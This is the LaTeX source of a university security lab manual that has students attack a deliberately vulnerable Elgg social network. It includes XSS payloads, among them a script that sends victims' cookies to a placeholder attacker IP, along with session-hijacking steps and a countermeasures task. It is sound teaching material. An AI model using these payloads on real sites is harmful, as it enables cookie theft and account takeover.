\documentclass[11pt]{article}

\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}

\usepackage{subfigure}
\usepackage{cite}
%\usepackage{cases}
%\usepackage{ltexpprt}
%\usepackage{verbatim}

%\topmargin      -0.70in  % distance to headers
%\headheight     0.2in   % height of header box
%\headsep        0.4in   % distance to top line
%\footskip       0.3in   % distance from bottom line

% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 


%\centerfigcaptionstrue

%\def\baselinestretch{0.95}


\newcommand\discuss[1]{\{\textbf{Discuss:} \textit{#1}\}}
%\newcommand\todo[1]{\vspace{0.1in}\{\textbf{Todo:} \textit{#1}\}\vspace{0.1in}}
\newtheorem{problem}{Problem}[section]
%\newtheorem{theorem}{Theorem}
%\newtheorem{fact}{Fact}
\newtheorem{define}{Definition}[section]
%\newtheorem{analysis}{Analysis}
\newcommand\vspacenoindent{\vspace{0.1in} \noindent}

%\newenvironment{proof}{\noindent {\bf Proof}.}{\hspace*{\fill}~\mbox{\rule[0pt]{1.3ex}{1.3ex}}}
%\newcommand\todo[1]{\vspace{0.1in}\{\textbf{Todo:} \textit{#1}\}\vspace{0.1in}}

%\newcommand\reducespace{\vspace{-0.1in}}
% reduce the space between lines
%\def\baselinestretch{0.95}

\newcommand{\fixmefn}[1]{ \footnote{\sf\ \ \fbox{FIXME} #1} }
\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}

\newcommand{\mybox}[1]{
\vspace{0.2in}
\noindent
\fbox{\parbox{6.5in}{#1}}
\vspace{0.1in}
}


\newcounter{question}
\setcounter{question}{1}

\newcommand{\myquestion} {{\vspace{0.1in} \noindent \bf Question \arabic{question}:} \addtocounter{question}{1} \,}

\newcommand{\myproblem} {{\noindent \bf Problem \arabic{question}:} \addtocounter{question}{1} \,}


\newcommand{\copyrightnoticeA}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2014\ \ Wenliang Du, Syracuse University.\\ 
      The development of this document is partially funded by 
      the National Science Foundation's Course, Curriculum, and Laboratory 
      Improvement (CCLI) program under Award No. 0618680 and 0231122. 
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}


\newcommand{\copyrightnotice}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2014\ \ Wenliang Du, Syracuse University.\\
      The development of this document is/was funded by three grants from
      the US National Science Foundation: Awards No. 0231122 and 0618680 from
      TUES/CCLI and  Award No. 1017771 from Trustworthy Computing.
      This lab was imported into the Labtainer framework by the Naval Postgraduate 
      School, Center for Cybersecurity and Cyber Operations under National Science 
      Foundation Award No. 1438893.
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}

\newcommand{\copyrightnoticeB}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2014\ \ Wenliang Du, Syracuse University.\\
      The development of this document is/was funded by the following grants from
      the US National Science Foundation: No. 0231122, 0618680, and 1303306.
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}


\newcommand{\nocopyrightnotice}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small  
      The development of this document is funded by 
      the National Science Foundation's Course, Curriculum, and Laboratory 
      Improvement (CCLI) program under Award No. 0618680 and 0231122. 
      Permission is granted to copy, distribute and/or modify this document.
      }}
\vspace{0.1in}
}

\newcommand{\idea}[1]{
\vspace{0.1in}
{\sf IDEA:\ \ \fbox{\parbox{5in}{#1}}}
\vspace{0.1in}
}

\newcommand{\questionblock}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{#1}}
\vspace{0.1in}
}


\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\selinux}{{\tt SELinux}\xspace}
\newcommand{\freebsd}{{\tt FreeBSD}\xspace}
\newcommand{\solaris}{{\tt Solaris}\xspace}
\newcommand{\windowsnt}{{\tt Windows NT}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
%\newcommand{\smx}{{\tt Smx}\xspace}
\newcommand{\smx}{{\tt Minix}\xspace}
\newcommand{\relay}{{\tt relay}\xspace}
\newcommand{\isys}{{\tt iSYS}\xspace}
\newcommand{\ilan}{{\tt iLAN}\xspace}
\newcommand{\iSYS}{{\tt iSYS}\xspace}
\newcommand{\iLAN}{{\tt iLAN}\xspace}
\newcommand{\iLANs}{{\tt iLAN}s\xspace}
\newcommand{\bochs}{{\tt Bochs}\xspace}

\newcommand\FF{{\mathcal{F}}}

\newcommand{\argmax}[1]{
\begin{minipage}[t]{1.25cm}\parskip-1ex\begin{center}
argmax
#1
\end{center}\end{minipage}
\;
}

\newcommand{\bm}{\boldmath}
\newcommand  {\bx}    {\mbox{\boldmath $x$}}
\newcommand  {\by}    {\mbox{\boldmath $y$}}
\newcommand  {\br}    {\mbox{\boldmath $r$}}


%\pagestyle{fancyplain}
%\lhead[\thepage]{\thesection}      % Note the different brackets!
%\rhead[\thesection]{SEED Laboratories}
%\lfoot[\fancyplain{}{}]{Syracuse University} 
%\cfoot[\fancyplain{}{}]{\thepage} 

\newcommand{\tstamp}{\today}   
%\lhead[\fancyplain{}{\thepage}]         {\fancyplain{}{\rightmark}}
%\chead[\fancyplain{}{}]                 {\fancyplain{}{}}
%\rhead[\fancyplain{}{\rightmark}]       {\fancyplain{}{\thepage}}
%\lfoot[\fancyplain{}{}]                 {\fancyplain{\tstamp}{\tstamp}}
%\cfoot[\fancyplain{\thepage}{}]         {\fancyplain{\thepage}{}}
%\rfoot[\fancyplain{\tstamp} {\tstamp}]  {\fancyplain{}{}}

\pagestyle{fancy}
%\lhead{\bfseries Computer Security Course Project}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}

\usepackage{listings}
\usepackage{color}

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\lstset{frame=tb,
  language=C,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3
}




\lhead{\bfseries SEED Labs -- Cross-Site Scripting Attack Lab}

\begin{document}

\begin{center}
{\LARGE Cross-Site Scripting (XSS) Attack Lab}
\vspace{0.1in}\\
{\Large (Web Application: Elgg)}
\end{center}
\copyrightnotice

\section{Overview}

Cross-site scripting (XSS) is a type of vulnerability commonly found
in web applications.  This vulnerability makes it possible for
attackers to inject malicious code (e.g. JavaScript programs) into victim's
web browser. Using this malicious code, the attackers can steal the
victim's credentials, such as session cookies.  The access control 
policies~(i.e., the same origin policy) employed by browsers to protect
those credentials can be bypassed by exploiting the XSS vulnerability.
Vulnerabilities of this kind can potentially lead to large-scale
attacks.

To demonstrate what attackers can do by exploiting XSS
vulnerabilities, we have set up a web application named 
{\tt Elgg} in a web server within this lab.
{\tt Elgg} is a very popular open-source web application for
social network, and it has implemented a number of countermeasures 
to remedy the XSS threat. To demonstrate how XSS attacks work, we 
have commented out these countermeasures in Elgg in our installation, 
intentionally making Elgg vulnerable to XSS attacks.  
Without the countermeasures, users 
can post any arbitrary message, including JavaScript
programs, to the user profiles.  
In this lab, students need to exploit this vulnerability to 
launch an XSS attack on the modified {\tt Elgg}, in a way that is 
similar to what Samy Kamkar
did to {\tt MySpace} in 2005 through the notorious Samy worm. 
The ultimate goal of this attack is to spread an XSS worm among the users,
such that whoever views an infected user profile will be infected,
and whoever is infected will add you (i.e., the attacker) to 
his/her friend list. 



\section{Lab Environment}

\newcommand{\urlorurls}{URL }
\newcommand{\urlisorurlsare}{URL is }


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Part I of the environment setup
%\section{Lab Environment}

This lab runs in the Labtainer framework,
available at http://my.nps.edu/web/c3o/labtainers.
That site includes links to a pre-built virtual machine
that has Labtainers installed, however Labtainers can
be run on any Linux host that supports Docker containers.

From your labtainer-student directory start the lab using:
\begin{verbatim}
    start.py xsite
\end{verbatim}
Links to this lab manual and to an empty lab report will be displayed.  If you create your lab report on a separate system,
be sure to copy it back to the specified location on your Linux system.

\subsection{Environment Configuration}
This lab includes three networked computers as shown in 
Figure~\ref{fig:topology}. 
The "vuln-site" runs the Apache web server and the {\tt Elgg} web
applications.  The "attacker" and "victim" computers each include
the Firefox browser.  Use the browser {\tt Web Developer} / {\tt Network}
tool (upper right menu), to 
inspect the HTTP requests and responses.  

\begin{figure}[htb]
\begin{center}

\includegraphics [width=0.8\textwidth,natwidth=621,natheight=403]{xsite.jpg}
\end{center}
\caption{Cross site scripting lab topology}
\label{fig:topology}
\end{figure}

\paragraph{Starting the Apache Server.}
The Apache web server will be running when the lab
commences.  If you need to restart the web server, use
the following command:
\begin{verbatim}
   % sudo systemctl restart httpd
\end{verbatim}

\paragraph{The {\tt Elgg} Web Application.}
We use an open-source web application called {\tt Elgg} in this lab.
{\tt Elgg} is a web-based social-networking application. 
It is already set up in on the vuln-site.
We have also created several user accounts on the {\tt Elgg} server and the credentials are given below.


\vspace{0.1in}
\begin{tabular}{|l|l|l|}
\hline
User 	& UserName 	& Password\\
\hline
Admin 	& admin 	& seedelgg \\
Alice 	& alice 	& seedalice \\
Boby 	& boby 		& seedboby \\
Charlie & charlie 	& seedcharlie \\
Samy 	& samy 		& seedsamy \\
\hline
\end{tabular}
\vspace{0.1in}


\paragraph{Configuring DNS.}
We have configured the following \urlorurls needed for this lab: 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\vspace{0.1in}
\begin{tabular}{|l|l|l|}
\hline
URL & Description & Directory\\
\hline
\url{http://www.xsslabelgg.com} & Elgg & {\tt
/var/www/XSS/Elgg/} \\
\hline
\end{tabular}
\vspace{0.1in}




\paragraph{Other software.}
Some of the lab tasks require some basic familiarity with
JavaScript. Wherever necessary, we provide a sample JavaScript program
to help the students get started. To complete task 3, students may
need a utility to watch incoming requests on a particular TCP port. The
home directory on the attacker computer contains an "echoserver" directory having
C program that can be configured to listen on a particular
port and display incoming messages. 

Task 4 requires modifications to, compilation and execution of a Java program
on the attacker computer.  This program is in the HTTPSimpleForge directory
on the attacker computer, and that computer includes a JDK for compiling java.


\subsection{Note for Instructors} 

This lab may be conducted in a
supervised lab environment. In such a case, the instructor may provide
the following background information to the students prior to doing
the lab:
\begin{enumerate}
  \item A brief overview of the tasks.
  \item How to use the virtual machine, Firefox web browser, and the
    {\tt Web Developer / Network} tools.
  \item Basics of JavaScript and Ajax.
  \item How to use the C program that listens on a port. 
  \item How to write a Java program to send HTTP GET messages. 	
\end{enumerate}

\section{Lab Tasks}

\subsection{Task 1: Posting a Malicious Message to Display an Alert Window}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile, 
the JavaScript program will be executed and an alert window
will be displayed. The following JavaScript program will display an alert window: 
\begin{Verbatim}
    <script>alert('XSS');</script> 
\end{Verbatim}
If you embed the above JavaScript code in your profile (e.g. in the brief
description field), then any user who views your profile will see the alert window. 

In this case, the JavaScript code is short enough to be typed into the 
short description field. If you want to run a long JavaScript, but you are limited
by the number of characters you can type in the form, you can store the 
JavaScript program in a standalone file, save it with the .js extension, and 
then refer to it using the {\tt src} attribute in the {\tt <script>} tag. 
See the following example:
\begin{Verbatim}[frame=single]
    <script type="text/javascript" 
            src="http://www.example.com/myscripts.js">
    </script>
\end{Verbatim}
In the above example, the page will fetch the JavaScript program from
\url{http://www.example.com}, which can be any web server.


\subsection{Task 2: Posting a Malicious Message to Display Cookies}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile,
the user's cookies will be displayed in the alert window.
This can be done by adding some additional code to
the JavaScript program in the previous task:

\begin{Verbatim}
     <script>alert(document.cookie);</script> 
\end{Verbatim}


\subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine, where the attacker has a TCP server listening 
to the same port. The server can print out whatever it receives. 
The TCP server program is in the echoserver directory on the attacker computer.
Note that in the output, the {\tt =} character gets transformed to {\tt \%3D}.

{\footnotesize
\begin{Verbatim}[frame=single] 
 <script>document.write('<img src=http://attacker_IP_address:5555?c=' 
                                  + escape(document.cookie) + '   >'); 
 </script> 
\end{Verbatim}
}

\subsection{Task 4: Session Hijacking using the Stolen Cookies}

After stealing the victim's cookies, the attacker can do whatever the victim
can do to the {\tt Elgg} web server, including adding and deleting friends
on behalf of the victim, deleting the victim's post, etc. Essentially, 
the attacker has hijacked the victim's session. 
In this task, we will launch this session hijacking attack, and
write a program to add a friend on behalf of the victim. 
The attack should be launched from another virtual machine.


To add a friend for the victim, we should first find out how a legitimate 
user adds a friend in {\tt Elgg}.
More specifically, we need to figure out what are sent to the server when a user 
adds a friend. Firefox's {\tt Web Developer / Network} tool can help us; it 
can display the contents of any HTTP request message sent 
from the browser. From the contents, we can identify all
the parameters in the request. A screen shot of sample HTTP headers is given in
Figure~\ref{fig:livehttptext}. This header information is gathered using
the  Firefox {\tt Web Developer / Network} tools
in the victim's browser.

Once we have understood what the HTTP request for adding friends look like, 
we can write a Java program to send out the 
same HTTP request. The {\tt Elgg} server cannot distinguish whether 
the request is sent out by the victim's browser or by the attacker's
Java program. As long as we set all the parameters correctly,
and the session cookie is attached, the server will accept and process the 
project-posting HTTP request.
To simplify your task, the HTTPSimpleForge directory on the attacker computer
contains a sample Java program that does the 
following:

\begin{enumerate}
\item Open a connection to web server.
\item Set the necessary HTTP header information.
\item Send the request to web server.
\item Get the response from web server. 
\end{enumerate}

Note you are permitted to hand-code cookie values (obtained using
the technique in Task 3) into this program.  In practice, such
a program would read the cookie value off of the network as was
done in Task 3.

If you have trouble understanding the sample Java program, 
we suggest you to read the following:

\begin{itemize}
\item JDK 8 Documentation: \url{https://docs.oracle.com/javase/8/docs/api/}
\item Java Protocol Handler:\\ 
\url{http://java.sun.com/developer/onlineTraining/protocolhandlers/}
\end{itemize}

\paragraph{Note 1:} {\tt Elgg} uses two parameters {\tt \_\_elgg\_ts} and
{\tt \_\_elgg\_token} as a countermeasure to defeat another related 
attack~(Cross Site Request Forgery). Make sure that you set these 
parameters correctly for your attack to succeed.

\paragraph{Note 2:} Compile and run the java program using

\begin{Verbatim}
javac HTTPSimpleForge.java
java HTTPSimpleForge
\end{Verbatim}


\subsection{Task 5: Countermeasures}

{\tt Elgg} does have a built in countermeasures to defend against the XSS attack.
We have deactivated and commented out the countermeasures to make the
attack work.
There is a custom built security plugin {\tt HTMLawed 1.8} on the Elgg web
application which on activated, validates the user input and removes the
tags from the input. This specific plugin is registered to the
{\tt “function filter\_tags”} in the \url{elgg/engine/lib/input.php} file.


To turn on the countermeasure, login to the application as admin, goto
{\tt administration} (on top menu) $\rightarrow$ {\tt plugins} (on the right panel),
andSelect {\tt security and spam} in the dropdown menu and click {\tt
filter}. You should find the {\tt HTMLawed 1.8} plugin below. 
Click on {\tt Activate} to enable the countermeasure.


In addition to the {\tt HTMLawed 1.8} security plugin in {\tt Elgg}, there is another
built-in PHP method called {\tt “htmlspecialchars()”}, which is used to encode the special
characters in the user input, such as encoding {\tt "<"} to {\tt “\&lt”}, 
{\tt ">"} to {\tt “\&gt”}, etc. Please go to
the directory \url{elgg/views/default/output} and find the function call
{\tt “htmlspecialchars”} in {\tt text.php}, {\tt tagcloud.php}, {\tt
tags.php}, {\tt access.php}, {\tt tag.php}, {\tt friendlytime.php}, 
{\tt url.php}, {\tt dropdown.php}, {\tt email.php} and
{\tt confirmlink.php} files. Uncomment the corresponding 
{\tt "htmlspecialchars"} function calls in each file. 


Once you know how to turn on these countermeasures, please do the
following:
\begin{enumerate}

\item Activate only the {\tt HTMLawed 1.8} countermeasure but not {\tt
htmlspecialchars}; visit any of the victim profiles and describe your
observations in your report. 

\item Turn on both countermeasures; visit any of the victim profiles and 
describe your observation in your report. 


%\item Please read the article~\cite{samy} by the author 
%of the Samy Worm and see how he bypassed the similar 
%countermeasures initially implemented in {\tt MySpace}. 
%Please try his approaches and see whether you can defeat the 
%{\tt Elgg}'s countermeasures.

\end{enumerate}


\paragraph{Note:} Please do not change any other code and make sure that there are no syntax
errors.




\section{Submission}
You need to submit a detailed lab report to describe what you have
done and what you have observed. Please provide details using  
{\tt LiveHTTPHeaders},  and/or screenshots.
You also need to provide explanation
to the observations that are interesting or surprising.
If you edited your lab report on a separate system, copy it back to the Linux system at the location
identified when you started the lab, and do this before running the stoplab command.

After finishing the lab, go to the terminal on your Linux system that was used to start the lab and type:	
\begin{verbatim}
stoplab xsite
\end{verbatim}
When you stop the lab, the system will display a path to the zipped lab results on your Linux system.  Provide that file to 
your instructor, e.g., via the Sakai site.





\begin{thebibliography}{10}

\bibitem{ajaxnoobs}
\newblock AJAX for n00bs. Available at {\footnotesize \url{http://www.hunlock.com/blogs/AJAX_for_n00bs}}.

\bibitem{ajaxpostit}
\newblock AJAX POST-It Notes.
\newblock Available at {\footnotesize \url{http://www.hunlock.com/blogs/AJAX_POST-It_Notes}}.

\bibitem{javascripttutorial}
\newblock Essential Javascript -- A Javascript Tutorial.
\newblock Available at the following URL:\\
{\footnotesize \url{http://www.hunlock.com/blogs/Essential_Javascript_--_A_Javascript_Tutorial}}.

\bibitem{Javascriptstring}
\newblock The Complete Javascript Strings Reference.
\newblock Available at the following URL:\\
{\footnotesize \url{http://www.hunlock.com/blogs/The_Complete_Javascript_Strings_Reference}}.

\bibitem{samy}
\newblock Technical explanation of the MySpace Worm.
\newblock Available at the following URL: \url{http://namb.la/popular/tech.html}.

\bibitem{elgg}
\newblock Elgg Documentation. Available at URL: \url{http://docs.elgg.org/wiki/Main_Page}.

\end{thebibliography}


\begin{figure}[b]
{\footnotesize
\begin{Verbatim}[frame=single]
http://www.xsslabelgg.com/action/friends/add?friend=40&__elgg_ts=1402467511
                             &__elgg_token=80923e114f5d6c5606b7efaa389213b3

GET /action/friends/add?friend=40&__elgg_ts=1402467511
                             &__elgg_token=80923e114f5d6c5606b7efaa389213b3
HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101
Firefox/23.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/elgguser2
Cookie: Elgg=7pgvml3vh04m9k99qj5r7ceho4
Connection: keep-alive

HTTP/1.1 302 Found
Date: Wed, 11 Jun 2014 06:19:28 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.11
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0,
pre-check=0
Pragma: no-cache
Location: http://www.xsslabelgg.com/profile/elgguser2
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
\end{Verbatim}
}
\caption{Sample of HTTP Header for Adding a Friend}
\label{fig:livehttptext}
\end{figure}
\end{document}
